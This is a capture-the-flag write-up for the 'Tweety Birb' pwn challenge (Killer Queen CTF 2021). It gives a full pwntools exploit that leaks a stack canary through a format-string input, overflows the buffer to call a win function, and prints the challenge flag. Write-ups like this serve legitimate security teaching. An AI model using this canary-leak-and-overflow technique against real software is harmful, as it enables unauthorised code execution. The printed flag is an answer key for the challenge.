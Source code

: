 ```yaml
---
name: Tweety Birb (2021)
event: Killer Queen CTF 2021
category: Pwn
description: Writeup for Tweety Birb (pwn) - Killer Queen CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Tweety Birb

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/xOHLniVJsJY/0.jpg)](https://youtu.be/xOHLniVJsJY?t=2382s "Killer Queen 2021: Tweety Birb")

## Challenge Description

> Pretty standard birb protection

## Solution

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
break *0x4011de
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './tweetybirb'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

offset = 72  # IP offset
ret = 0x40101a  # Stack alignment

# Leak canary value (15th on stack)
io.sendlineafter('magpies?', '%{}$p'.format(15))
io.recvline()
canary = int(io.recvline().strip(), 16)
info('canary = 0x%x (%d)', canary, canary)

payload = flat([
    offset * asm('nop'),
    canary,
    8 * asm('nop'),
    ret,
    elf.symbols.win
])

# Send the payload
io.sendlineafter('fowl?', payload)
io.recvline()

# Get our flag!
flag = io.recv()
success(flag)
```

Flag: `kqctf{tweet_tweet_did_you_leak_or_bruteforce_..._plz_dont_say_you_tried_bruteforce}`
